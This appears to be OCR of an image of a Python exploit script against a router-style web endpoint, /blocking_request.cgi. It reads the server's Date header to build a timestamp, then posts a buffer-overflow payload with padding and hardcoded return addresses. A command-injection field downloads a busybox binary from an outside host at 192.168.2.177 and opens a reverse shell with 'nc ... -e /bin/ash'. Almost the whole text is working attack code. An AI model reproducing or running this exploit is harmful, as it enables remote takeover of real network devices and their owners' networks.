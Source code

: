 
    def getTime(url):
        scheme =  urlparse.urlparse(url).scheme
        hostname = urlparse.urlparse(url).hostname
        header={
            'Host': hostname,
            'Cache-Control': 'max-age=0',
            'Upgrade-Insecure-Requests': '1',
            'Origin': scheme+'://'+hostname,
            'Content-Type': 'application/x-www-form-urlencoded',
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
            'Referer': scheme+'://'+hostname,
            'Accept-Encoding': 'gzip, deflate',
            'Accept-Language': 'zh-CN,zh;q=0.9',
            'Connection':'close'
        }
        data1 ={
            'CName': '',
            'mac': '',
            'interval': '',
            'timestap': '',
        }
        url = url+'/blocking_request.cgi'
        ret = requests.post(url = url ,
                      headers = header,
                      data = data1,
                      verify=False)
        format_time =''
        for key, value in (ret.headers).items():
            if 'Date' in key:
                format_time = value
        tmp = re.findall(r', (.*?) (.*?) (.*?) (.*?):(.*?):(.*?) GMT',format_time)
        timeStap = rematch(tmp) + 3600
        timeStapStr = str(timeStap)
        print(timeStapStr)
        data2 ={
            'CName': 'cd /tmp/home/root;wget http://192.168.2.177:8080/busybox-armv6l;chmod 777 *;./busybox-armv6l nc 192.168.2.177:1234 -e /bin/ash',
            'mac': '',
            'interval': 'a'*12+p32(1)+'a'*16+p32(0x0000EFA8),   
            'timestap': timeStapStr +'a'*4740+p32(0x0006FE35),   #p32(addr) 此addr为interval参数内容首地址

        }
        ret = requests.post(url = url ,
                      headers = header,
                      data = data2,
                      verify=False,)
        print('End')


    if __name__ == '__main__':
        url = sys.argv[1]
        getTime(url)



</sup>
